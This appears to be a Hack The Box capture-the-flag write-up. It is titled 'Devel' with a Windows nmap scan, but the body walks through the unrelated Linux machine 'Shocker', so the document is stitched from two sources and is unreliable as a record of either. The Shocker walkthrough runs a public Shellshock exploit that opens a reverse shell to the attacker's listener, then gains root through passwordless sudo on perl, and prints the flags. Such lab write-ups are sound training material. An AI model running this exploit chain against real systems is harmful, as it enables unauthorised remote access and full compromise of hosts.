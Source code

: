 # Devel
#### 10.10.10.5

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.5

Nmap scan report for 10.10.10.5
Host is up (0.21s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.56 seconds
```



We visit the website and there is nothing special.
The port 2222 running a ssh looks interesting however OpenSSH 7.2p2 only has a User Enumeration POC

Time to bring out **Dirbuster**

After a scan with a medium wordlist nothing juicy was found.
It had the normal cgi folders and images folders

The name of the box looks suspicious though. Must be a shellshock vuln!

After a little google dorking we find something like this:
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/is_vuln_if.png "Is vuln if")

The first three points look perfect for our system. AND for the last point we need a bash script.
Dirbuster the great can help us search with file extensions
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/dirbuster.png "Dirbuster")

Now we got a presumably vulnerable bash script

**Time to go hunting**

Searchsploiting apache mod cgi gives us 34900.py
![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/searchsploit.png "Searchsploit")


The python script won't work out of the box though. We need to add the vulnerable bash script into the the scope.
We add it under the pages array

![Alt text](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Shocker/images/adding_pages.png "Adding Pages")



**And we go exploiting**
```{r, engine='bash', count_lines}
root@kali:~/Hackthebox/Shocker# python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.xx lport=1234
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> ifconfig
ens33     Link encap:Ethernet  HWaddr 00:50:56:aa:13:57  
          inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feaa:1357/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feaa:1357/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:12028204 errors:0 dropped:511 overruns:0 frame:0
          TX packets:10213659 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:1945868761 (1.9 GB)  TX bytes:2286172156 (2.2 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:352786 errors:0 dropped:0 overruns:0 frame:0
          TX packets:352786 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:26113324 (26.1 MB)  TX bytes:26113324 (26.1 MB)
```



We got **_shellz_**

```{r, engine='bash', count_lines}
10.10.10.56> ls /home
heba
shelly

10.10.10.56> cd /home/shelly
10.10.10.56> ls -lah
total 84K
drwxr-xr-x 6 shelly shelly 4.0K Oct  9 04:59 .
drwxr-xr-x 4 root   root   4.0K Oct  9 06:21 ..
-rw------- 1 root   root      0 Sep 25 08:29 .bash_history
-rw-r--r-- 1 shelly shelly  220 Sep 22 12:33 .bash_logout
-rw-r--r-- 1 shelly shelly 3.7K Sep 22 12:33 .bashrc
drwx------ 2 shelly shelly 4.0K Sep 22 12:35 .cache
drwxrwxr-x 2 shelly shelly 4.0K Sep 22 15:49 .nano
-rw-r--r-- 1 shelly shelly  655 Sep 22 12:33 .profile
-rw-r--r-- 1 root   root     66 Sep 22 15:43 .selected_editor
drwx------ 2 shelly shelly 4.0K Oct  8 21:49 .ssh
-rw-r--r-- 1 shelly shelly    0 Sep 22 12:35 .sudo_as_admin_successful
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:06 doubleput
drwxr-xr-x 2 root   root      0 Dec 31  1969 fuse_mount
-rwxr-xr-x 1 shelly shelly  14K Oct  8 22:05 hello
-rwxr-xr-x 1 shelly shelly 8.5K Oct  8 22:05 suidhelper
-rw-r--r-- 1 root   root     33 Sep 22 15:37 user.txt

10.10.10.56> cat user.txt
2ec24e11320026d1e70ff3e16695b233
```

**Priv Esc**
We check shellys home directory and we see that sudo as admin successful is present
Lets check with sudo -l on what privs shelly actually has
```{r, engine='bash', count_lines}
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Oh Snap!
Shell has root access for perl. Seems legit  :wink:

So we should technically get root if we spawn a tty using perl
```{r, engine='bash', count_lines}
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> id
uid=0(root) gid=0(root) groups=0(root)

10.10.10.56> cd /root
10.10.10.56> ls -lah
total 32K
drwx------  4 root root 4.0K Sep 22 15:36 .
drwxr-xr-x 23 root root 4.0K Sep 22 12:43 ..
-rw-------  1 root root    0 Sep 25 08:23 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Sep 22 15:36 .cache
drwxr-xr-x  2 root root 4.0K Sep 22 15:33 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Sep 22 15:36 root.txt
-rw-r--r--  1 root root  170 Sep 22 15:59 .wget-hsts

10.10.10.56> cat root.txt
52c2715605d70c7619030560dc1ca467
```

